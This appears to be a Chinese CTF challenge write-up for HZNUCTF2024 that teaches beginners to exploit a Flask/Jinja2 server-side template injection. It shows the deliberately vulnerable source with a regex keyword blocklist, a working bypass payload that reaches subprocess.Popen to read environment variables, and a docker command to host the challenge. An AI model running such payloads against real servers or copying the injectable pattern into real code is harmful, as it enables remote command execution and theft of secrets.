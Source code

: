 # 炼狱waf-S

python-flask SSTI，绕过少量waf，个人觉得难度适合新生(狗头。

不搞过滤器，之前有比赛搞过了。玩个不常见的。

从python2.4版本开始，可以用 subprocess 这个模块来产生子进程，并连接到子进程的标准输入/输出/错误中去，还可以得到子进程的返回值。subprocess 意在替代其他几个老的模块或者函数，比如：os.system、os.popen 等函数。

源码：

```python
from flask import Flask, request, render_template
import re
from jinja2 import Template

app = Flask(__name__)

@app.route('/', methods=['GET', 'POST'])
def index():
    color = 'green'  # 默认为绿色
    message = "Welcome to HZNUCTF2024: HZNUer"
    if request.method == 'POST':
        payload = request.form.get('payload', '')

        if not re.findall(r"~|\+|%|\\x|\\u|set|attr|chr|str\(\)|join|base64|format|:|\'\'|\"\"|os|eval|popen|system|env|exec|shell_exec|passthru|proc_popen|globals|init|import|read", payload):
            message = Template("Welcome to HZNUCTF2024: " + payload).render()
        else:
            message = Template("Hacker!!! 阿弥诺斯！！！").render()
            color = 'red'  # 若检测到可能的注入，改为红色

    # 使用color和message变量
    return render_template("index.html", color=color, message=message )

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8081)

```

允许的payload：

```
payload={{[].__class__.__base__.__subclasses__()[351]('cat /proc/1/en*',shell=True,stdout=-1).communicate()[0].strip()}}
```

docker运行

```
docker build -t wafs . && docker run -d -p 9031:8081 --name wafs -e FLAG=HZNUCTF{test_flag} --rm wafs
```

![image-20240410182927630](https://tc-md.oss-cn-hangzhou.aliyuncs.com/wujie/image-20240410182927630.png)